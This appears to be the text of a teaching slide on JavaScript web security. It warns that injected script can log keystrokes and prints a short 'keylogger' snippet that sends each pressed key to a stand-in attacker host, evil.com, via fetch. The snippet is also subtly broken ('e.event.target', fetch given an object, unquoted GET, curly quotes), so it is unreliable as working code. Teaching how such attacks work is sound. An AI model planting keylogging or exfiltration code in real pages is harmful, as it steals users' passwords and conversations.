

# A Cup of JavaScript
JavaScript's ability to send/receive data over the network is powerful, but is also a security liability.
This code sends every key the user presses to an attacker’s server at http://evil.com, using an HTTP GET request and JavaScript’s ability to respond to user events (in this case, a key press).

Then, attackers will be able to see every key you press while you’re on the web page—allowing them to steal usernames, passwords, and conversations.

// keylogger!
document.addEventListener(‘keyup’,
  function (e) {
	const value = e.event.target
	const url =
    `http://evil.com?d=${value}`
	fetch({
    url: url,
  	method: GET
	})
  })